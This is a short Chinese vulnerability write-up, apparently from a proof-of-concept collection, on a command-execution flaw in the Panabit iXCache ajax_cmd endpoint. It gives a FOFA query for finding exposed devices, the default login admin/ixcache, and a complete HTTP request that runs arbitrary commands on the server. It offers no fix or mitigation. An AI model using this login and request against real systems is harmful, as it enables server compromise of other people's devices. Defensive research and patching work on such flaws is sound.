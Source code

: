 # Panabit iXCache ajax_cmd存在后台命令执行漏洞

# 一、漏洞简介
panabit缓存加速产品是一款基于派网公司自研的操作系统（PanaOS）上研发的内容缓存产品。iXCache依靠高稳定性、高可靠性两大特点，可缓存丰富的资源，目前支持Web视频、移动视频、Web音乐、移动音乐、软件下载、应用商店、游戏补丁等八大类资源的缓存。部署灵活、支持交换机镜像和Panabit牵引两种模式，满足不同级别的用户需求。panabit iXCache系统ajax_cmd存在命令执行漏洞，攻击者通过漏洞可以执行任意命令，导致服务器失陷。

# 二、影响版本
+ Panabit iXCache

# 三、资产测绘
+ fofa`<font style="color:rgb(255, 0, 0);">title="iXCache"</font>`
+ 特征

![1706801330303-6f77b29b-5337-4c00-9d58-6227a29488d7.png](./img/dxmkz2REfz98ryF9/1706801330303-6f77b29b-5337-4c00-9d58-6227a29488d7-202725.png)

# 四、漏洞复习
1. 使用弱口令`admin/ixcache`登陆系统,获取cookie

![1706801386353-66163cd9-4b54-4c2e-a39f-4d386894b78f.png](./img/dxmkz2REfz98ryF9/1706801386353-66163cd9-4b54-4c2e-a39f-4d386894b78f-952342.png)

2. 使用上一步获取的cookie，执行命令

```plain
POST /cgi-bin/Maintain/ajax_cmd?action=runcmd&cmd=ls HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Cookie: _walkthrough-introduction=0; pauser_1706355982_749237=paonline_admin_54360_17068008921; pauser_965865545_617716=paonline_admin_59195_9663105331; pauser_1628486854_900424=paonline_admin_84071_16289322461
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
```

![1706801708864-338c6ff8-4078-44a8-aa0a-e73d784b7807.png](./img/dxmkz2REfz98ryF9/1706801708864-338c6ff8-4078-44a8-aa0a-e73d784b7807-973503.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/provn8b8ocqxex5v>